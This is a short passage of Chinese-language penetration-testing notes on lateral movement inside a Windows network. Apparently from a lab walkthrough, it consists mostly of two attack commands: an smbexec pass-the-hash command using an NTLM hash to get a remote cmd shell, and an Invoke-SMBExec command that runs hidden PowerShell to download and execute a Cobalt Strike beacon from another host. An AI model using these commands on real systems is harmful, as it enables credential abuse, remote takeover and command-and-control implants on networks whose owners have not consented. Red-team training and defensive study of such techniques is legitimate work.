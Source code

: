 ​	

如下命令使用hash传递来获取cmd shell

```
smbexec -hashes aad3b435b51404eeaad3b435b51404ee:e39c2287a10517cf1cde66bd8c7c6cf0 administrator@10.10.10.10
```

![image-20230903212359914](内网横向移动/image-20230903212359914.png)



### Invoke-SMBExec

Invoke-SMBExec是Invoke-TheHash工具包里的powershell脚本，如下命令实现执行远程powershell命令来让目标服务器在CS上线

```
Invoke-SMBExec -Target 10.10.10.10 -Domain henry.com -Username administrator -Hash e39c2287a10517cf1cde66bd8c7c6cf0 -Command "powershell.exe -nop -w hidden -c IEX((new-object net.webclient).downloadstring('http://10.10.10.3:8000/beacon.ps1'))" -verbose
```

![image-20230903221834484](内网横向移动/image-20230903221834484.png)



​						

# END